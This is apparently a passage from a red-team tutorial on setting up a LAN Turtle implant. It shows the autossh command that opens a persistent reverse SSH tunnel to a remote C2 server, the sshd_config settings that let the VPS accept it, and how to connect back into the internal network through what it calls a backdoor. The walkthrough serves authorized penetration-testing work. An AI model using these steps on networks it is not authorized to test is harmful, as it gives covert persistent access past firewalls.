 ###### Auto SSH
The AutoSSH Configuration on the LAN Turtle is designed to allow the device to maintain a persistent reverse SSH tunnel back to your remote server (usually a VPS). This is critical for remote access, pivoting, and post-exploitation operations in Red Team engagements. Also start and enable AutoSSH on Boot
![](/img/Turtle/Pasted%20image%2020250507010239.png)
This means my VPS listens at 136.X.X.X, listen on port 4444, and forward all traffic to the LAN Turtle’s SSH port 22.
![](/img/Turtle/Pasted%20image%2020250507010548.png)
or alternatively  you can use Turtle Shell and run the below command
```bash
autossh -M 0 -N -R 4444:localhost:22 fintaXxjXXX@136.XX.X(C2 IP,VPS IP)

 it usually means the connection was successful and AutoSSH went silent (as expected) because:
-N tells it to not run a remote command,
-R opens the reverse tunnel,
and -M 0 disables monitoring output.
```
![](/img/Turtle/Pasted%20image%2020250508195249.png)


##### 6 .**Configuring the VPS Server -Allow SSH Port Forwarding**
 Now we’ve got our LAN Turtle ready to reach out, but unless our VPS (C2 server) is configured to accept and forward those connections, the tunnel won’t connect. In this step we will set up our  VPS to behave like a friendly gatekeeper that says, “Sure, tunnel through me, make yourself at home.
 The LAN Turtle initiates an outbound SSH connection to our C2 server, going t through firewalls like any regular web traffic would. This creates a tunnel that allows us to reverse into it from the VPS.
 
For this to happen, the SSH server on the VPS needs to explicitly allow this kind of behavior, we will Edit the SSH daemon configuration file and  make sure these setting are enabled.
```bash
sudo nano /etc/ssh/sshd_config

GatewayPorts yes
PermitTunnel yes
AllowTcpForwarding yes
ClientAliveInterval 60
ClientAliveCountMax 3
```

- *AllowTcpForwarding:* Enables reverse/forwarded ports.
- *GatewayPorts:* Makes the reverse tunnel accessible externally.
- *ClientAliveInterval* and *ClientAliveCountMax*: Helps keep the tunnel alive during long idle periods.
-
Once we have edited the file, restart the SSH service to apply the changes. After the LAN Turtle connects using AutoSSH, we should see the reverse tunnel listening on our VPS, like a mini backdoor just waiting for your command.
```
sudo ss -tuln | grep 4444
```
![](/img/Turtle/Pasted%20image%2020250507015558.png)
If the port shows up as "LISTENING"," tuko sawa". Just like that, we are inside. Remote access. We can confirm the connection as below
```
ssh root@localhost -p 4444
```
![](/img/Turtle/Pasted%20image%2020250508213959.png)
Now that we’ve got our reverse tunnel working and can SSH into the LAN Turtle from our VPS, we’re inside the internal home network. The next step is gaining situational awareness, discovering what's around us, what services are running, and what targets are potentially vulnerable.